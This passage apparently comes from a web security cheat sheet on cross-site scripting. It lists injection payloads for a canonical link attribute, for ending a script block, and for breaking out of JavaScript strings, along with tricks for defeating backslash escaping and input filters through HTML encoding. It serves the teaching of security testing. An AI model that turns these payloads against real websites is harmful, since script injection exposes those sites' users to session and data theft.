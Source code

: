    {{< hint style=notes >}}
   **Tips**:

   * Substitute `'` `"` and vice versa
   * Space is not needed

   ```html
   <link rel="canonical" href='https://website.net/?'accesskey='X'onclick='alert(1)'/>
   ```
   {{< /hint >}}

    ```html
    <link rel="canonical" href='https://website.net/?'accesskey='X'onclick='alert(1)'/>
    ```

### Into JavaScript

**Terminating the existing script**

The browser interprets the `</script>` sequence within the string as the end of the script block, prematurely stopping the execution of your JavaScript script and generating an error.

```html
<script>
...
var input = 'controllable data here';
...
</script>
```

```html
<!-- Payload -->
</script><img src=1 onerror=alert(document.domain)>
```

***

**Breaking out of a JavaScript string**

* It's essential to repair the script following the XSS context, because any syntax errors there will prevent the whole script from executing

    ```javascript
    '-alert(document.domain)-'
    ';alert(document.domain)//
    ```

* Some applications try to escape single quote characters with a backslash but often forget to escape the backslash itself.
  * `';alert(document.domain)//` is converted to `\';alert(document.domain)//`&#x20;
  * so your input could be `\';alert(document.domain)//` which gets converted to `\\';alert(document.domain)//`
* Making use of HTML-encoding
  * When the XSS context is some existing JavaScript within a quoted tag attribute, such as an event handler, it is possible to make use of HTML-encoding to work around input filters.
    * `<a href="#" onclick="... var input='controllable data here'; ...">`
    * `&apos;-alert(document.domain)-&apos;`
    * The browser HTML-decodes the value of the onclick attribute before the JavaScript is interpreted
    * HTML encode: https://html.spec.whatwg.org/multipage/named-characters.html
